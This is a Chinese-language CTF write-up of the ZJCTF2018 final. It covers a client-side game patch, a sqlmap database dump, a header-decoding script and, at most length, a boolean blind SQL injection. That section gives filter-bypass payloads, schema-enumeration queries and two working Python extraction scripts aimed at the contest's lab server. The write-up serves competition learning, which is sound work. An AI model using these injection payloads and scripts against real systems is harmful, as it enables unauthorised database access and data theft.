 # ZJCTF2018 final
#CTF/Writeup
记录一下省赛线下这一天我参与的题目，以作留存。

## 0x01你追我赶
看到这道题，先抓包，发现包内有静态 js 文件：`/static/game/index.js`

而且源码里也提示题目是 offline，可以想见这道题目的总体思路是修改本地逻 辑。 这是一个以 chrome 恐龙游戏为基础的题目，在以前也做到过，不同的是，在 home 页面可以看到游戏规则里写坚持 1 分钟即可获得 flag。因此改分数是不太对的， 所以我选择搜索碰撞逻辑然后修改,去掉了 else 后面调用 gameover 的代码，这样 就不会碰撞了：
![](ZJCTF2018%20final/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202018-11-05%20%E4%B8%8A%E5%8D%888.56.05.png)
五分钟后还原代码，然后用 burp 拦截 ajax 请求，在回复报文中获得 flag。 当然，在写 wp 复看这段代码的时候还找到了 post 请求的代码段，这样自主发包 想必应该也是一种思路。
决赛后新加post成功后的四张图片像素位比较，因为misc我不管，在此就不多赘述。
<br>

##  0x02知法懂法
Sqlmap扫id字段dump出整个数据库，比对每一条和网络安全法有什么区别。发现第二十九条与标准法不同。
然后猜谜，该提交什么呢，往哪里提交呢？ctf真是一个猜谜游戏，爆了网页，爆了属性名，最后发现提交正确的第二十九条内容即可获得flag
<br>

## 0x03再快一点
原题，存在于各类基础ctf题库，脚本如下：
```
import requests
import base64

url= ‘http://172.21.1.102:61234/hC1DU4oEZ3’
s = requests.Session()
flag = base64.b64decode(base64.b64decode(s.get(url).headers[‘flag’]).decode(‘utf-8’).split(‘:’)[1]) 
postdata = {‘margin’:flag}
*print*(s.post(url, data=postdata).text)
```
<br>

## 0x04Blind
写这篇writeup就想记录一下这个耻辱，自己拱手相让的冠军真的很令人难受。
### 基础性判断判断：
当被字符等截断前的数字为1-5时返回you find it!，被过滤字符返回Probably you need an other mothod.，其余返回hide more deep。
发现黑名单字符为：`> <> != ' %27 # and union 空格`
未被过滤的字符为：`() ^ or %20 - CHAR() "  %00 select <`
确定是字符型注入：`1-1`结果未变
所以暂且把hide more deep当作**错误值**，you find it!当作**正确值**，因为需要用`or`连接，所以第一位要先取错误值，比如`0`，然后or后拟构造出一个true，让查询返回正确，否则返回错误。过程中发现，虽然`'`被过滤，但是`”`却可以完成构造，说明字符串被双引号闭合，所以完成poc也不成问题。

### 最后构筑payload结构如下：
 `0"or"1"^"1"^(xxxxxx)--%20` 
ps1: 我🐎也不知道狗哥在帮试payload的时候经历了什么，核心payload的前面要加”1”^”1”，讲道理这样能用的话，只要在核心前加“0”即可，不过令人奇怪的是：or”1”^”1”和or1^1返回的结果有差异，可能数据库是MSSQL之类的原因。
ps2：由于当时我在尝试了> 和<>没有试<，理所当然觉得<也被过滤了，是我的失误，所以最后用减号，这大大降低了脚本的优势，以至于我后来一直选择burp工程锤来爆破。
不管怎么说，总算是能用了。

### 编写脚本：
脚本里用到的payload如下：
 `0"or"1"^"1"^(ascii(substr(database(),{0},1))-{1})--%20` 
脚本编辑如下：
```
# POST boolean blind sql injection
import requests

url = 'http://172.21.1.102:61234/iFmn2H0UOq'
s = requests.Session()
key = ''

for pos in range(1,2): 
	for mid in range(0,127):
		payload = r'0"or"1"^"1"^(ascii(substr(database(),{0},1))-{1})--%20'.format(pos,mid)
		data = {'id':payload,'Submit':'Search'} 
		r = s.post(url, data=data)
		print(len(r.text))
		# if b"Hide more deep" in r.content:
		if len(r.text)==647:
			break

	key += chr(mid)
	print(key)
print("result:",key)
```
很遗憾，不知道为何，同样的payload，在burp下能爆出来，脚本就会出现问题，原因大抵是python对payload中双引号的处理可能和正常报文有所不同，我也不是特别熟悉request模块，所以在此即然burp能用，就索性用了burp。

### burp上爆肝一般的爆破开始：
使用payload如下：
`0"or"1"^"1"^(ascii(substr(((select group_concat(xxx) from xxx)),{0},1))-{1})--%20`
* 爆数据库名：
`0"or"1"^"1"^(ascii(substr((((select group_concat(schema_name) from information_schema.schemata))),{0},1))-{1})--%20`
获得`information_schema tips useless`
* 爆表名：
`0"or"1"^"1"^(ascii(substr(((SELECT group_concat(table_name) FROM information_schema.tables)),{0},1))-{1})--%20`
800字长。。。。。
* 爆字段名：
`0"or"1"^"1"^(ascii(substr(((select group_concat(xxx) from xxx)),{0},1))-{1})--%20`
1200字长。。。。。没有写脚本真的很僵。所以就在这里卡住了。。。
中间还用了max和min,爆出了zjctf这个表名，判断是useless.zjctf，然而依旧无济于事，最终没找到正确的列名比赛就结束了。
现在想想，应该是去解决我脚本上的问题，而不是头铁来用burp爆。

### 拜读ch1p战队wp后的总结和思考
几个点：
1. 首先，他们和我一样，burp上正确的payload用在脚本中就会出现问题，他们的结论是`--`上会有问题，这我就没有深究出来。而且，他们及时转换策略，将`--`换成了`or "-`，使脚本能够成功运行。哎
2. 在poc的设计上，使用`/**/`代替空格，我用`^()`取代了空格；`in`取代比较字符，所以用了substr却没加ascii。没有使用`<`我觉得在这句话来讲是有问题的，首先是编写脚本的时候就不能用二分法加快搜索速度，其次是不区分大小写的特性导致了后面爆writeup出现问题。

**其部分wp如下：**
在当前库tips中，并没有发现flag ,需要进行跨库查询，首先需要先在information_schema库中，获得所有的库名。
payload:`payload = '-1" or substr((select group_concat(table_schema) from information_schema.tables where table_schema not in ("information_schema","tips")),%s,1) in ("%s") or "0'`
得到还存在一个名为userless 的数据库，查询其表段，得知存在zjctf 表，flag 在其content 字段。
跑出的 flag 为：zjctf{aa0_bl1nd_hha} 但是上交时提示错误。懵了一会儿后突然想起in 是不区分大小写的。 那么猜测大写字母，针对 flag 中唯一的单词，尝试提交aa0_Bl1nd_hha 成功！

下面是完整的脚本：
```
"""
    Author:Li4n0
    Date:2018-11-4
"""
import requests
import string

# in 不区分大小写 需要自己再判断一次

url = 'http://172.21.1.102:61234/iFmn2H0UOq'
#payload = '-1" or substr((select group_concat(column_name) from information_schema.columns where table_name in ("zjctf")),%s,1) in ("%s") or "0'

#payload = '-1" or substr((select group_concat(table_schema) from information_schema.tables where table_schema not in ("information_schema","tips")),%s,1) in ("%s") or "0'

payload = '-1" or substr((select group_concat(content) from useless.zjctf),%s,1) in ("%s") or "0'
key = ''
length = 1
while True:
    for i in string.printable.replace('#', ''):
        data = {
            'id': payload.replace(' ', '/**/') % (str(length), i),
            'Submit': 'Search'
        }
        r = requests.post(url, data=data)
        if 'You find' in r.text:
            key += i
            length += 1
            break
    print(key)
```
个人认为，这个脚本，精髓就在where后的`in`和`not in`，败笔在(“%s”)前的`in`。不管如何，它能跑出答案，一切都无所谓了。


END:)


